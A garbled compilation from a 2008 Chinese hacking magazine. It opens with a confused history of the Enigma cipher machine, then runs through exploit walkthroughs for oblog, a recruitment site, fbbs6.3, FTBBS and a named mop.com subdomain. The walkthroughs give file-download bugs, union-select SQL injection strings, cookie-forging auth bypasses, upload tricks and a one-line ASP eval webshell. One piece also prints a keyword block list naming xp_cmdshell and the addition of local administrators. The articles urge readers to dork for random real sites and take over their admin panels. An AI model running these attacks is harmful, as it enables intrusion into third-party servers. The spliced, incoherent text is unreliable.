多表代替密码有多个单字母密码，每个密码用来加密一个明文字符。第一个密码加密明文的第一个字母，第二个密码加密明文的第二个字母，等等。在所有的密钥用完后，密钥又再重复使用。若有20个单字母密码，将会使20个字母的明文都被同一密码加密，这叫做密码的周期。

在经典密码中，密码周期越短越脆弱。使用计算机就能够轻松地获取具有很长周期的代替密码。最令人不择手段的加密算法也不会允许一种转轮的密码重复出现，因为重复现象是危险的，重复指数（index of coincidence）可以使多表代替密码暴露出明显特征。为了避免在加密过程中产生大量的重复码，Enigma在结构上增加了多个转轮：当一个转轮转完一周期后，它上面有一个信号带动第二个转轮，把信号方向再推进一个字母的位置。

用这样的办法，要26×26＝676个字母后才会重复原来的状态。而事实上，Enigma里有三个转轮，它使得状态更难重复，也更加难以破译。为了进一步考虑这个问题，设计者也让第三个转轮每天都不相同，更加强了保密性，使得万一有人获得了电报的密钥，结果也不会使系统受到严重威胁。

而在此基础上，这些转轮与其他那些旋转开关一起转动更为巧妙，输出的密码字母中包含大量的变化，使得不同的字母之间的排列组合更加复杂。通过每个转轮单独的调整和改变，Enigma的密码并不只是简单的替代字母，而是通过多个转轮之间的叠加形成更复杂的加密方式。

事实上它只是一种巧妙的开关，使用者并不需要知道它是如何工作的，只需要知道，当一个键被按下时，信号不是直接传到显示器——要是这样就太简单了——而是先经过三个转轮，随着线路的选择，然后经过反射器再回到三个转轮，通过另一条线路再到达显示器。在这种设计下，反射器虽然没有像转轮那样增加可能的不重复方向，但是它可以使加密的过程和解密的过程完全一样，大大提高了使用的简洁性，如图5。

在今天，我们仍然可以想象这样的场景：一个Enigma摆放在我们的前面，我们将它轻轻地打开，按下一次消息。我们首先通过调节Enigma三个转轮的方向，使它们处于17576个方向中的一个，而转轮的初始方向就是基座，这是我们事先约定并研究确定好的转轮设置。

我们希望保守住它那段历史中的秘密，于是键入明文消息。在Enigma的显示器中，每个被键入的字母都依次闪亮并被记录下来，接着它把加密后的消息转发为密文通过电报传出。我们的收信方在接收到电报之后，打开手中同样的Enigma。按照我们的事先约定，把转轮的方向调整到和发信方相同的起始方向，然后依次键入收到的密文，并把消息对应的字母依次记下来，就得到了明文。于是加密和解密的过程就是完全一样的——这就是反射器起到的作用。不过对于解密来说，这并非十全十美，它所带来的一个副作用就是：你输入的每一个字母都永远不会被加密成它自己本身，因为反射器中每一条导线总是被连接到一个不同的字母上。

在Enigma的设计思想里，转轮的初始方向决定了整个密文的加密方式。这就造成了一个问题：如果有人通过程序将它破解，而且他能够破译到完整的密文，这样他就可以实现实质性的破译。但最大的问题其实并不在于知道它的初始方向，而在于转轮形式、排列方式和插线板设置并不唯一。

此时关键的问题出现了。17576个初始方向似乎并不是非常大的一个数字。如果将该密码文输入到猜测系统中，只要将关键字密钥模型设置为特定方向，再加上对转轮方式的短时间破解，就可能逐步接近答案。但在一个方向内部还有更多层次的变化，而反复试验出来的开关仍然是在不同的转轮之间进行切换，犹如一个密码机中的一部分。

首先，设计者对Enigma的三个轮子采用了可自由排列的方式，这样能够让使用者容易将密钥“字母表”中的不同字母组合加密，而每一轮都将一个字母的替代方式决定在原来的方位。当然，这种方式可以依次放入123、132、231、312、321、213六种不同的排列次序，进而得到整个系统的某一种方式。

接下来，轮子的最终控制和位置之外，Enigma在键盘和第一个转轮之间增加了一个连接板。这块连接板能够让使用者用一根信号线将某个字母和另外一个字母连接，让通过字母位置的连接机制再次改变一个字母的信号。这样连接板还可以在某个时候交换两个字母的方位进行调换。这些连接板上的连线状况也是其使用中的另一个重要选择，决定了最终的收信信息。

于是，转轮自身的初始方向、转轮之间的相互位置，以及连接板线路的状况，就组成了所有可能的密码。好的，现在让我们来算一算这件事：这种发动的Enigma一共要有多少组合加密可能性？

- 三个转轮不同的方向组成了26×26×26＝17576种不同可能性；
- 三个转轮间不同的相对位置为6种可能性；
- 连接板上两两交换字母的可能性数目非常巨大，有100391791500种。

于是一直计算下去，得到17576×6×100391791500，大约为10000000000000000，即一亿亿种可能性。

如果对方拥有密钥，那么收发密文与加密都将轻而易举。但是对于不知道密钥的破解者来说，在这巨大的可能性面前，想通过逐一尝试来找到正确的方法，是没有任何可行性的。

既然连接板如此重要，那么为什么前述动态地与所选项分析的，不为Enigma设计旋转换接之类的东西呢？原因在于连接板本身其实就是一个简单的常规密码系统。在密码分析过程中，连接是固定的，所以单单只是它，十分容易被频率分析法破译。

静态系统插线板暴破的可能性不多，但是在加密过程中，它不像动态系统；一旦把整个系统变成了复式系统，频率分析法对它再也无能为力。与此同时，连接板变化的可能性数目大大增加，使得暴力破解的方法成为不可能。

强大的Enigma让德国军方很快地爱上了它，他们几乎对于Enigma的加密抱有绝对保密的信心……

……如同Enigma也成为了战争史上最成功的信息加密之一。但它真的不能被破解吗？

## 资料：Enigma 发展史

- 1926年，吃了英国海军“第40号房间”大亏的德国海军，率先决定采用Enigma的海军型——Enigma Funkschlüssel C型。
- 1927年，Enigma-D开发成功；
- 1927年，Enigma-E开发成功；
- 1927年，Enigma-F开发成功；
- 1927年，Enigma-D在美国获得专利；
- 1928年，Enigma-D被美国军队采用；
- 1928年，Enigma-G军用型开发成功，德国陆军、空军开始批量采用。
- 1929年，Enigma-H开发成功；
- 1930年，Enigma-I军用型开发成功，被德国陆军、空军批量采用；
- 1930年，Enigma-A在英国申请专利，次年获得专利权；
- 1931年，Enigma-K开发成功；
- 1932年，……
- 1934年，日本购得Enigma-K；
- 1934年，Enigma Funkschlüssel M（海军型）开发成功；
- 1935年，西班牙、意大利先后获得Enigma-K；
- 1936年，在Enigma-I军用型的基础上，改制出德国国防军型Enigma（Wehrmacht Enigma）；
- 1937年，日本依靠购来的Enigma-K，参考借鉴后开发出大名鼎鼎的紫密码机；
- 1937年，德国空军正式开发出各型Enigma；
- 1938年，Enigma M03-38型开发成功，装备德国陆军、空军；
- 1938年，Enigma的海军型号发展为Enigma Funkschlüssel M-2型（即M2型Enigma）；
- 1938年，Enigma商业型（具体型号不详）被德国军部试用；
- 1938年，Enigma商业型（具体型号不详）被德国军队及商船采用并改装；
- 1939年，日本在Enigma-K及紫密码机的基础上，发展出日本海军军用密码机；
- 1939年，Enigma M03-39型开发成功，装备空军；
- 1939年，Enigma的海军型字母表成为Enigma Funkschlüssel M-3型（即M3型Enigma）；
- 1939年，开发出德国军事谍报部型（Abwehr Enigma）二战版；
- 1942年，Enigma的海军型升级为Enigma Funkschlüssel M-4型（即M4型Enigma）；
- 1942年，开发出德国—日本海军通用型Enigma-T（或Enigma Model T型）；
- 1943年，海军型又升级出M-B型、M-8型；
- 1945年，甚至到了纳粹垮台前的1945年，新开发的M-5型和由M-B型发展出来的M-10型还分别装备德国海军上……

## 参考资料

- D. Kahn, *The Codebreakers: The Story of Secret Writing*, New York: Macmillan Publishing Co. 1967
- B. C. W. Hagelin, *The Story of the Hagelin Cryptos*
- Bruce Schneier，《应用密码学——协议、算法与C程序》

## 编辑点评

在上一期黑客传奇中，我们读到了精彩的黑客历史中的前两章，这次作者带来的是第三章，有关二战中最先进的密码机——Enigma的发展历史。作者附上一篇精彩的学术文章，读不懂并无妨，技术上初步了解一下即可。Enigma机由几部分组成，其奇特构成也值得一看。让我们来看看其破解的历程吧？

## IT是Blog时代

从本文可以看到：  
oblog最流行词分析和利用

### 一、下载0day

四月份oblog爆出了2个0day，纵观各类外壳，也有的是笔误。无论如何，这些小的0day似乎我们等了很久了，那就装上一把吧。

## 黑客与安全专刊 2008.06 →【漏洞练习】

（感谢随缘），利用很简单：`http://test.cn/attachment.asp?path=/conn.asp` 即可下载 conn，代码如下：

```asp
<!--#include file="inc/inc_syssite.asp" -->
<%
Dim Path, rs, FileID, ShowDownErr, uid, file_ext
Dim SQL
Path = Trim(Request("path")) ' 直接获取的路径
FileID = Trim(Request("FileID")) ' 一般的过滤
If FileID <> "" And Path = "" Then ' 获取的东西不能为空就下载了。
    Response.Write "参数不对"
    Response.End
End If
If CheckDownLoad Then
    If Path = "" Then
        set rs = Server.CreateObject("ADODB.RecordSet")
        link_database
        SQL = "select file_path,userid,file_ext,ViewNum FROM oblog_upfile Where FileID=" & CLng(FileID)
        rs.open sql, conn, 1, 3
        If Not rs.Eof Then
            uid = rs(1)
            file_ext = rs(2)
            rs("ViewNum") = rs("ViewNum") + 1
            rs.Update
            downloadFile Server.MapPath(rs(0))
        Else
            Response.Status = 404
            Response.Write "该附件不存在！"
        End If
        rs.Close
        Set rs = Nothing
    Else
        If true_domain = 1 Then
            downloadFile Server.MapPath(Replace(Path, bgurl, ""))
        Else
            downloadFile Server.MapPath(Path)
        End If
    End If
Else
    If Path <> "" Then
        Response.Status = 403
        Response.Write ShowDownErr
        Response.End
    Else
        downloadFile Server.MapPath("oblogdir&images/oblog_powered.gif")
    End If
End If
%>
```

也就是广告这里改变目录名字，随便换成 fuck.asp 就行了，接着把广告内容写成一句话，就行，如图 3。

## 二、Tag.asp 的注射漏洞

```asp
'tags.asp 行 15~36
sType = LCase(Trim(Request.QueryString("s")))
TagId = Trim(Request.QueryString("tagid")) ' 这个地方没过滤，在 36 行
' 其他值也会被 GetUsersByTag
uSearch = Trim(Request.QueryString("userid"))
sKeyword = Trim(Request.QueryString("keyword"))
sAll = Trim(Request.QueryString)
if sAll & "" <> "" then sType = "hottags"
Call link_database
Select Case sType
  Case "hottags"
    sTitle = P_TAGS_DESC ' 100个
    sContent = Tags_Hottags()
  Case "cloud"
    sTitle = P_TAGS_DESC & " 云图"
    sContent = Tags_SystemTags()
  Case "list"
    sTitle = P_TAGS_DESC & " 列表"
    sContent = Tags_SystemTags()
  Case "user"
    sTitle = P_TAGS_DESC & " 用户"
    sContent = GetUsersByTag(iTagId)
End Select

' tags.asp 行 320~338
Function GetUsersByTag(byval sTagId)
  Dim rst, sSql, sContent
  Set rst = Server.CreateObject("Adodb.Recordset")
  sSql = "Select Top 100 u.userName, u.user_id, u.user_folder From (select UserId, ... where iTagId=" & sTagId & " Group By UserId) a, oblog_user b Where a.UserId=b.UserId"
  rst.Open sSql, conn, 1, 3
  If Not rst.Eof Then
    sContent = ""
  End If
End Function
```


我们直接构造 `http://www.xxx.com/attachment.asp?path=/conn.asp` 就可以下载 conn 了，漏洞发布的可能是为了保证安全，发布的 exp 上忽略了，但那个点可能是想跳到根目录，但是加点就无法下载了，结果如图 1。


到这，我们也是以最简单的办法拿到了数据库的重要文件。然后这个 conn.asp，oblog 后台会对它进行调用，只需使用 IIS6.0 的特性就行，在后台 GG 那，

可以看到 `iTagId = Trim(Request.QueryString("tagid"))` 没过滤，函数直接传到数据库里去了，导致 SQL 注射的产生。（感谢 t4c3）

鄙人比较喜欢用 union 语句来进行注射，当然大家也可以用 NBSI 之类的注射工具来注射。我们构造以下语句：`tags.asp?t=user&keyword=xser&tagid=1 Group By UserId) a,oblog_user b Where a.UserId=b.UserId and 1=2 union select Top 100 b.userName,b.user_dir,b.user_folder From (select Userid from oblog_usertags Where iTagid=1`，结果如图 4。

Tagid=1 and 1=2 union…… 这个比较简单，一下子就把 password 暴出来了，如图 5。拿 shell 就不多讲了，直接利用 IIS6 的办法。

## 三、实战

这么讲有的同学还不懂，那就 baidu 下，随便搜一个站来测试下就行了。我们用 google 的语法来查找吧，在 google 里搜索，结果会有很多。比如：`"Copyright by oblog.cn"`，结果约 57,900 项符合 `"Copyright by oblog.cn"` 的查询。嗯，感觉也是蛮大的。还好官方出了补丁。随便找了一下暴出管理员密码，如图 6。


密码是 admin888，竟然那么低级，oblog 的后台是 admin/admin_login.asp。接着我们就进去拿 shell 吧。先在“网站信息配置”那把 GG 的目录换成 fuck.asp，然后再在“广告内容”里写入一句话 `"<%=eval(request(\"f\"))%>"`。接着连接上去就成了，如图 7。

如果遇到 `"Microsoft VBScript 运行时错误 错误 '800a000d' 类型不匹配：'CLng' /inc/inc_tags.asp, 行 324"` 这说明漏洞被补丁，强行转换传递来的参数。编辑点评：本文分析了一个下载文件漏洞和一个 SQL 漏洞，另外给出了一种获取 webshell 的方法。

## 对网愿科技人才网的简单分析【续篇】

从本文可以学到：

- 网愿科技人才网漏洞再分析
- 漏洞的利用

不知“黑手”的各位读者是否还记得“冰的原点”在文章《对网愿科技——人才网的简单分析》中所遗留的几个问题？现在我就和大家一起来解决这些问题。

## 一、再次注入

先来看看“冰的原点”分析的那段代码：

```javascript
function ReplaceBadChar(strChar)
  if strChar = "" Then
    ReplaceBadChar = ""
    Exit Function
  end if
  tmpChar = strChar
  tmpChar = Replace(tmpChar, "'", "''")
  tmpChar = Replace(tmpChar, "<", "&lt;")
  tmpChar = Replace(tmpChar, ">", "&gt;")
  ReplaceBadChar = tmpChar
End Function
```

为什么这段代码的注入漏洞用 Domain3 也可以检测出来却无法注入？后来手工注入也不成功，原因是“冰的原点”这段代码不好细，上面的 uid 在 Request.QueryString 后还经过自定义函数。

ReplaceBadChar 函数过滤了 `$`、`#`、`^`、`!`、`<`、`>` 等字符，用工具编码的代码要用到 `(`、`)`、`<`、`>` 等字符，所以无法成功进入，后面的手工注入不成功也是这个原因。在经过 ReplaceBadChar 函数过滤后，注入到的 mid 和 asc 函数也都无法用了，我们无法进行跨表查询。还是有一个可以用的，就是 union 查询！

只是 view_person.asp 这个文件我就找了半天，发现无法 union 查询，因为 union 查询要使用前面的查询为依据显示我们的内容。代码中有一句 if rs_person.eof or rs_person.bof then，只要为假就提示“对不起，该用户不存在或已被删除！”。虽然 view_person.asp 不能 union 查询，但程序员写得再好使终会有所疏忽，我们只要找到没有经过 ReplaceBadChar 函数过滤，或经过过滤但可以利用 union 查询的注入点就 OK 了！在 view_notice.asp 中，偶然看到一段代码：

```vb
<%
id = Trim(Request.QueryString("id"))
set rs = createobject(...)
```

## 《黑客手册》2008.06 →【新洞练练看】

```vb
sql = "select * from [notice] where id='" & id & "'"
rs.open sql, Conn, 1, 1
if rs.eof then
Response.Write("还没有公告")
else
%>
……省略无关代码……
<table height='27' align='center' background='images/notice/header_bg.gif'><font color='#FFFFFF' size='2'><b>&nbsp;&nbsp;<%= rs("user") %></b></font></td></tr>
<tr>
<td width='100%' align='left' valign='top' height='2932'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<%= rs("content") %><br><br>
<div align='right'><%= rs("puttime") %></div></td>
</tr>
</table>
……省略无关代码……
<% end if
rs.close
set rs = nothing
%>
```


这里的 id 没有经过 ReplaceBadChar 函数就直接 SQL 查询了！SQL 语句查询到的是 notice 表，数了下字段，一共 5 个，构造语句：

`and 1=2 union select 1,2,3,4,5 from admin`

在官方测试图 1 里，显示“2、3、4”这几个数字，如图 1，把“2、3、4”分别替换为“admin、password、adminid”，显示出管理员的账号密码，如图 2。

虽然 view_notice.asp 这个文件可以注入，但这个文件是 3、1、5 顺序排列的，网上大多会用的为 3.0 版，不在这个文件下。对比后，我又找到一个 `/inc/getcapital.asp`，代码就不贴出来了，有兴趣的朋友可以自己下载源码阅读下。直接给出注入语句：

`http://jobv31.acc.vishcon.com/inc/getcapital.asp?capitalid=1 and 1=2 union select admin,password,3,4,5 from admin`

访问后页面一片空白，查看下源文件就可以看到，如图 3。

## 二、穿梭的数据库

为什么用 Domain3.5 打开数据库有两个隐藏表，使用 Access 打开数据库却不见踪影呢？原因是在 Access 中打开数据库时，这两个表被隐藏了！原名用的是一个“TMPCLP”前缀，可以隐藏这个表，且把整个表或者查询对象也无法看到，但可以在 MSysObjects 这个表中查看。在关闭数据库或压缩数据库后，该表不会消失。另外手工删除时，系统也会自动改名为“TMPCLPXXXXXX”。不过有种方法可以修改，表名为真正的表名，取自 MSysObjects 的 Flags 字段值为 4097，在关闭数据库或压缩数据库后，该表将神秘地出现在图 4 所示。

我在 Access 中执行 SQL `Select Name From MsysObjects` 可以看到那两个表名。得到表名后用 `select * from [TMPCLP表名]` 查询到了表里面的数据。比如表名为“TMPCLP135901”，我们查询 SQL `select * from [TMPCLP135901]` 就可以看到里面的数据了，如图 5。

这两个表没有什么作用，估计是设计数据库时对其进行的测试。


## 三、鸡肋的后台管理验证码

在“冰的原点”分析的那段代码后面还有段代码，看后你就知道为什么这个后台管理验证码是“鸡肋”，代码如下：

```vb
Pwd = replace(Trim(Request.Form("PWD")), "'", "")
UserName = replace(Trim(Request.Form("username")), "'", "")
Set LoginRS = Server.CreateObject("ADODB.Recordset")
SqlStr = "select * from admin where admini='" & UserName & "' and ..."
LoginRS.Open SqlStr, Conn, 1, 3
If LoginRS.EOF AND LoginRS.BOF Then
Response.Write("<script language=javascript>alert('登录失败!\n\n你输入的帐号、密码或验证码错误，请再次输入！');
window.location.href='Login.asp';</script>")
Response.End
Else
If LoginRS("PassWord") = md5(pwd) THEN
If CInt(LoginRS("Locked")) = 1 Then
response.write("<script language='javascript'>alert('该帐号被锁定,请与系统管理员联系!');
window.location.href='Login.asp';</script>")
Response.End
Else
' 登录成功，开始新旅程。
userid = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
If userid = "" Then userid = Request.ServerVariables("REMOTE_ADDR")
LoginRS("LastTime") = Now()
LoginRS("LastLoginIP") = userid
LoginRS("LastLogin") = Now()
LoginRS("LoginRS") = "admin" ' 注意这句
Response.Cookies("jb_admin_Name") = LoginRS("admin") ' 下面的几句
```

426

## 新闻系统教程（2008.06）

接连弹出 3 个提示对话框，确认后访问 http://jobv31.acc.wishcn.com/admin/admin_index.asp，如果不出差错，就成功登录了后台！如图 7。

当然，如果提示“您还没有登录，现在为您返回登录页面”，则可能说明数据库中第一条记录的 locked 字段的值被设为 1，即账户被锁定，如图 8。


虽然在后台验证时用了“后台管理验证码”，如果登录成功后用 session 来认证，那就算只得到管理员账号和密码，然后就可以欺骗直接进后台。实际测试中我们甚至连管理员账号都不知道就可以欺骗进后台，因为登录成功后，后台的文件包含了 check.asp 来验证是否已经登录，而问题就出在这个文件上，它如下：

```asp
dim job_admin_Name, job_admin_PassWord, job_admin_flag, flag
job_admin_Name = replace(Request.Cookies("job_admin_Name"), "escape('!')", "")
job_admin_PassWord = Request.Cookies("job_admin_PassWord")
job_admin_flag = replace(Request.Cookies("job_admin_flag"), "escape('!')", "")
if job_admin_Name <> "" or job_admin_PassWord <> "" or job_admin_flag <> "" then
    response.write "<SCRIPT language=JavaScript>alert('您还没有登录，现在为您返回登录页面');"
    response.write "this.location.href='login.asp';</script>"
    response.End()
else
    sql="select * from admin where admin='" & job_admin_Name & "' and password='" & job_admin_PassWord & "' and flag='" & job_admin_flag & "' and locked=0"
    set rs=conn.execute(sql)
    if rs.eof and rs.bof then
        rs.close
        response.write "<SCRIPT language=JavaScript>alert('您还没有登录，现在为您返回登录页面');"
        response.write "this.location.href='login.asp';</script>"
        response.End()
    else
        flag="1"
    end if
end if
```

这个时候可以先欺骗“/Sql/index.asp”文件（在默认情况下运行的，这个文件只是检查 job_admin_Name、job_admin_PassWord、job_admin_flag 的值是否为空，不为空则正常显示，所以不必怎么聪明的问题），执行 SQL 语句：

```sql
update admin set flag='locked=0'
```

如图 9 所示。

修改后再去欺骗 admin_index.asp 就 OK 了！进了后台，当然是为了获得 WebShell。官方的 database_manager.asp（ACCESS 数据库管理）文件管理界面可供利用。我们以刚才找到的内容为基础，到百度搜索，随便一个就行了，或手动把数据库文件路径设置在后台管理后台后，新闻管理→添加新闻→通过 eveneditor 上传一个图片，然后访问 database_manager.asp 文件，如图 10。


代码中的 job_admin_Name、job_admin_PassWord、job_admin_flag 通过 Request.Cookies 获取后过滤了单双引号，不晓得程序员为什么不把 job_admin_PassWord 一起过滤，偏偏留下了这个东西？在这里的 SQL“select * from admin where admin='" & job_admin_Name & "' and password='" & job_admin_PassWord & "' and flag='" & job_admin_flag & "' and locked=0”中，我们可以这样绕过：只要把 job_admin_flag 设为 1，job_admin_PassWord 设为 1 or 1=1 or '1'='1，job_admin_Name 为 admin，再对前面的 SQL 语句稍作处理，便会查询为“真”，自然绕过了验证。下面我以官方的演示站点（http://jobv31.acc.wishcn.com/）为例，来测试下漏洞。访问后台 http://jobv31.acc.wishcn.com/admin/login.asp，清空地址栏，输入：

```javascript
javascript:alert(document.cookie="job_admin_Name='"+escape('admin')+"'...");
```

## COOKIES 注入 + 上传审查的 bbs6.3 动态版程序

从本文可以学到：

- fbbs6.3 动态版漏洞分析
- cookie 注入和上传漏洞

今天闲来无事，站长给了一套代码来着，名字叫做飞天论坛 fbbs6.3 动态版，好像还具有博客功能，呵呵，就让我看看它的安全性怎么样吧。

### 一、cookies 注入漏洞

哈哈，让我一找就找出了一个注入点了，在根目录下的 blog_edit.asp 中有如下代码：

```asp
<%
userid=request.cookies("clubuser_id")
...
sql="select * from [tblog] where id="&request("id")
set rsblog=server.createobject("adodb.recordset")
rsblog.open sql,conn,3,1
%>
```

id 没有过滤就直接进库查询了，这个利用起来是需要注册的，于是我们注册一个账号，进入博客空间，发表一篇日志，然后点编辑日志，如图 1。


```asp
nothis(1)="xp_cmdshell"
nothis(2)="/add"
nothis(3)="exec%20master.dbo.xp_cmdshell"
nothis(4)="net localgroup administrators"
...
if instr(qs,nothis(i))<>0 then
    err=true
end if
```

原来是这样啊，难怪工具不成功了，不过它只定义了 query_string，但是好像还可以 cookies 注入哦。fbbs6 帖子有 21 个字段名，于是我在浏览器中输入：

```javascript
javascript:alert(document.cookie="id="+escape("1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from fbbs_admin"))
```


### 二、特别的上传漏洞

如果根据以上的方法得到 MD5 密码，但是又在 cmd5 等网站查询不到 MD5 的密码的话，那我们是不是没有办法了呢？要想找到一个网站的最好办法是什么呢？我们能不能考虑一个通过上传文件达到 webshell 的利用过程？

```asp
<%
userId=request.cookies("clubuser_id")
set Ftbbs=HTML_MMB
url=Application("FTBBSMB")
upfiletype=Application("FTBBSMB")(12,0)
upfilesize=Application("FTBBSMB")(13,0)
if Application("FTBBSMB")(7,0)="1" then
    if foldermyyear(date()) and month(date()) and day(date()) then
    else
        myFolder = userid
        call makefolder(myFolder, fso) ' 生成文件夹，成为 boker 已生成
    end if
    dim upload_file,uploadFormPath,serverPath,formName,companyName, _
        file,uploadrequest,SaveFileName,SavePathFileName
    set upload=new Ftbbs_Class
    upload.AllowExt=upfiletype ' 上传文件类型
    upload.GetData(1) ' 获取上传文件类型
    upload.GetData(2) ' 获取上传文件大小
    photo_name=upload.form("photo_name")
    photo_note=upload.form("photo_note")
    if photo_name<>"" then
        response.write "<SCRIPT language='JavaScript'>alert('相册分类不能为空')"
        history.go(-1)
    end if
    sql="select top 1 * from ftblog_type where userid='"&userid&"' and blogtype='"&blogtype&"' and photo_name='"&photo_name&"'"
    set rs=server.createobject("adodb.recordset")
    rs.open sql, conn
    if not rs.eof then
        signrs("sign")
    end if
    rs.close
    formPath=userid
    filePath=userid
    if right(formPath,1)<>"/" then formPath=formPath&"/"
    if upload.IsErr then
        select case upload.isErr
            case 1
```

### 图 4 采摘字段

### 图 5 露出用户名和密码

5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 from ftbbs_admin))，重新打开 http://www.**.cn/blog_edit.asp，如图 5。

管理员的用户名和 MD5 加密的密码呈现在我们的面前，这时我们可以破解 MD5 密码登录后台，添加 .cer 文件的上传。别忘了更新缓存，不更新缓存，添加 cer 文件上传仍是无效的，上传之后就得到我们可爱的 shell 了。

不仅有这个文件存在 cookies 注入，在根目录 boker.asp、myinfo.asp、myblog.asp、setupmb.asp、myphoto.asp 中，userid 均没有过滤就直接插入库。

似乎没有什么问题，但是仔细一看好像有不对之处。之前建立一个以 userid 命名的文件夹，可是 userid=request.cookies("clubuser_id")，userid 是从 cookie 中取得的变量，它是可以更改的。

如果我们更改成一个 1.asp 类似的文件夹，那么不是 2003 的系统也可以了吗？想到这里我不禁兴奋，赶快试了一下，新建一个相册，在浏览器中输入 javascript:alert(document.cookie="clubuser_id=1.asp")，如图 6。

### 图 6 修改 cookie 中 clubuser_id

我们这时再上传我们的一张图片，如图 7、图 8，可用，搞定了。这个漏洞和那个“分身”如果采用的是那种用用户名建立一个文件夹的形式是一样的，可以说是异曲同工了。好，效果就出来了。

### 图 7 上传图片马

### 图 8 访问上传的文件

### 四、结语

文章就到这里了，如果文章有什么不对的地方希望各位朋友指出，有什么问题欢迎到 NoHack 论坛找我讨论。我的 ID 是：mystery。

编辑点评：

最终发现这样的文章，可以在有限时间中逐渐剖析问题并进行发掘，深入的技术分析与综述用来抛砖引玉，以供读者在深入问题发展方面参考并分享自己的分析心得，希望有更多这样的文章出现。


编辑点评：

本文分析的系统中存在的 cookie 注入威胁不大，文中将其攻破。另外，关于 2003 中 ASP 的漏洞，文章有介绍过，至于如何由此进行防范，还有待进一步探讨。

## FTBBS PHP 版上传头像漏洞分析与利用

从本文可以学到：

- FTBBS PHP 版漏洞原因分析和利用
- 启发大家挖掘漏洞的新思路

FTBBS 这个论坛用的人还是比较多的，可以百度一下就知道了。FTBBS 官网好像自己说这款论坛有很大优势，其中一个大概是“严密的安全部署和攻击防护体系”，但是我发现的这个上传头像漏洞直接就能拿到 webshell，真有点讽刺。

### 一、分析

测试系统：PHP_FTBBS_GBK_5.0 简体中文免费版

漏洞文件：usermgact.php

漏洞代码：

```php
$userName = get_cookie('username');
$inFolder = 'userheadimg';
$supfiletype = 'gif|jpg'; // 限制上传文件类型是 gif 和 jpg
$supfilesize = 51200;
```

第 8—11 行：

```php
include_once('inc/upload_fun.php');
if(isset($_FILES) && !empty($_FILES['userfile']) && !empty($_FILES['userfile']['size'])){
    $size = $_FILES['userfile']['size']/1;
    $strFileName = $_FILES['userfile']['name'];
    $arrName = explode('.', $strFileName);
    $extName = $arrName[count($arrName)-1]; // 作用是取最后上传的文件后缀名
    if (!false !== strpos($supfiletype,$extName)){
        echo '不允许上传 '.$extName.' 类型的文件';
        exit;
    }
    if ($size > $supfilesize){
        echo '上传的文件最大限制为：'.$supfilesize.' 字节';
        exit;
    }
}
```

先来介绍一下 strpos() 这个函数。语法：int strpos(string haystack, char needle)，本函数用来找字符串 haystack 中的字符 needle 最后出现的位置。但得注意的是 needle 只能是一个字符，中文字符就不适合了。若找不到指定的字符，则返回 false 值。

这段代码的问题就出在 strpos() 这个函数。程序员选用这个函数的目的，就是想把上传文件的后缀名和 $supfiletype 里已经限定好的“gif|jpg”这两个后缀名做对比。如果相同则上传成功，如果找不到指定的字符，则返回 false 值，执行 else 里的语句，即不允许上传。

### 二、利用

这个漏洞原理很简单，但是危害很大，下面我来给大家演示如何利用这个漏洞得到 webshell。

- 注册一个用户，选择修改资料中的自定义头像，如图 1。
- 浏览选择一个 PHP 文件，这里就可以是你的 webshell，不过上传文件大小不能过大，我们可以先把 PHP 代码写小一点，再传就大功告成。上传成功后，可以通过上传完的头像属性得到 PHP 马的路径，如图 2。
- 直接把这个地址复制下来，登录就行了，接下来如何提权服务器就交给大家了，如图 3。


### 三、总结

这个漏洞原理很简单，但是危害很大，一句话：“千里之堤，毁于蚁穴”。我还是一个初学者，若以上分析有什么不合理的地方，请大牛们多多包涵。在 FTBBS 这个论坛里还存在不少漏洞，有兴趣的可以自己再挖掘。

编辑点评：

一个函数没用对，可以导致整个系统的沦陷。大家在读书的时候可以多研究研究 API，或许会发现很多类似的错误和问题。

## Mop 分站的一次游玩

从本文可以学到：
- mop 分站漏洞探测和分析
- 漏洞利用得到 webshell

某天，我和 bloodsword 大牛在玩，遇到了个 mop 注册站。由于好奇心的诱惑，冲过去，发现遇到了很多的困难。谁知今天又看到了那个站，于是乎就想写写什么，因为上次遇到的问题真的太多了，写也写不完。于是想把这套思路普遍道出，顺便把过程编写一下。

首先是一个游戏的站，隶属于 mop 的，是《大话西游》的官方地址，上面有许多的下载文件，如图 1。

注入点为：`http://www.zg.mop.com/service/sales.php?newsId=1178`。于是开始注射，我比较喜欢手动的，因为我喜欢看到那个熟悉的 MD5 页面，于是开始注射。判断长度时输入 `http://www.zg.mop.com/service/sales.php?newsId=1178' order by 25/`，发现返回错误，输入 `http://www.zg.mop.com/service/sales.php?newsId=1178' order by 24/` 返回正常。也就是 24 个长度了，再输入 `http://www.zg.mop.com/service/sales.php?newsId=1178' and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24/`，发现返回如图 2。

于是开始把“12”“13”之处用列表代替，随便想了个 admin 表。想着，构造 `http://www.zg.mop.com/service/sales.php?newsId=1178 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,userid,14,15,16,17,18,19,20,21,22,23,24 from admin/`，结果返回如图 3。最终因为 32 位长度、加密的 MD5，接着开始找后台。都猜了，是、明、明月什么的，扫了很多，但还是没有结果。

后边是 bloodsword 大牛的工具出乎意料地收集，东西其实很多。于是把这个站下载下来，这个站里几个地方都看不懂，然后觉得可能是 `Power by DedeCms 织梦内容管理系统`，于是开始下载了整站，发现了 `setup` 目录，登录一看，吓到了，原来是织梦的系统……这一下，跳出了一行，后台似乎到手，如图 5。


都可见，无论上传什么东西都无法通过。记得我们上次走过去的时候，是通过一个老外的软件加了一层马甲。于是下载了个 angelfly spy2008 来看看，狠是：


不知为什么，可能是加了一层马甲混不过去，手动加上文件头伪装也不成功，返回 404 依旧，但是用了老外的工具后就成功了，如图 8。

## XSS 的延伸——CSRF 攻击的一些杂谈

从本文你可以学到：
- CSRF 介绍
- CSRF 利用场景分析

### 一、背景

自从 ycosx 再次大放异彩，引出了 baidu 博客蠕虫，自从 XSS 从 PC 流向 web 上，后来又从大写的 X 写到了 XXS，这类东西开始“广”受重视，某种程度上的 XSS 蠕虫。最近也有几个系统能跨出 webshell，也使得这个 XSS 逐渐开始走火出门。

